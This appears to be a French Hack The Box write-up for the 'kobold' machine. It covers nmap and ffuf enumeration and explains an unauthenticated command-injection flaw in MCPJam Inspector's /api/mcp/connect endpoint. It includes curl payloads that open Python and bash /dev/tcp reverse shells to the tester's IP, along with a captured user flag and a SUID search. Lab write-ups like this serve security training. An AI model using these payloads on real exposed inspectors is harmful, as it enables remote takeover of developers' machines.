







```
 nmap -Pn -sC -sV 10.129.18.96 
```



```
ffuf -u https://kobold.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt -k
```



```
ffuf -w /usr/share/wordlists/dirb/common.txt -u https://10.129.18.96 -H "Host: FUZZ.kobold.htb" -k -fs 154

```







### Note 

 1. C'est quoi MCPJam ?

**MCP** signifie **Model Context Protocol**. C'est un standard ouvert (créé par Anthropic) qui permet aux IA (comme Claude ou ChatGPT) d'interagir proprement avec des outils locaux (bases de données, fichiers, scripts).

**MCPJam Inspector** est une interface web (souvent utilisée par les développeurs) pour tester et déboguer ces serveurs MCP. En gros, c'est un outil qui permet de dire : _"Hé, connecte-toi à ce script local et utilise-le comme un outil pour l'IA"_.

2. **La Vulnérabilité**

L'exploit repose sur une faille de conception majeure dans les versions vulnérables de l'Inspector (**CVE-2026-23744**).

A. Le manque d'authentification

L'interface de l'Inspector possède une API (`/api/mcp/connect`) qui permet de configurer et de lancer de nouveaux serveurs MCP. Le problème est que cette API est **totalement ouverte** : elle ne demande ni mot de passe, ni jeton (token), ni cookie de session.

B. L'exposition réseau

Normalement, un outil de développement comme celui-ci ne devrait écouter que sur `127.0.0.1` (le localhost ). Mais l'Inspector écoutait par défaut sur `0.0.0.0` (toutes les interfaces réseau), ce qui l'a rendu accessible à toi via l'IP de la machine HTB.

C'est le cœur de l'exploit. Pour fonctionner, l'Inspector doit exécuter des programmes sur le système (par exemple `npx`, `python` ou `node`).

- L'API accepte un objet JSON où tu définis la `command` et les `args`.
- Le serveur prend ces entrées et les passe directement au système d'exploitation pour les exécuter via une fonction comme `child_process.spawn` ou `exec`.
- Comme il n'y a **aucun filtrage** (sanitization), au lieu de lancer un serveur MCP légitime, tu lui as ordonné de lancer `python3` avec un script de **Reverse Shell**.

#### Exploitation 

Payload 

```
curl -k -X POST https://mcp.kobold.htb/api/mcp/connect \
     -H "Content-Type: application/json" \
     -d '{
  "serverId": "exploit1",
  "serverName": "pwned",
  "serverConfig": {
    "command": "python3",
    "args": [
      "-c",
      "import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.15.209\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")"
    ]
  }
}'

```





Payload pour maintenir le shell 
```
curl -k -X POST https://mcp.kobold.htb/api/mcp/connect \
     -H "Content-Type: application/json" \
     -d '{
  "serverId": "exploit_stable",
  "serverName": "pwned",
  "serverConfig": {
    "command": "/bin/bash",
    "args": [
      "-c",
      "/bin/bash -i >& /dev/tcp/10.10.15.209/4444 0>&1 & disown; sleep 10"
    ]
  }
}'

```
### Flag 1 :  (User)

```
ca7066c68cc564863f4ed06cdcda6ac3
```

Stabilier le shell 
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
uis `Ctrl+Z`, `stty raw -echo; fg`

```
find / -user root -perm -4000 -exec ls -ldb { } \; 2>/dev/null
```
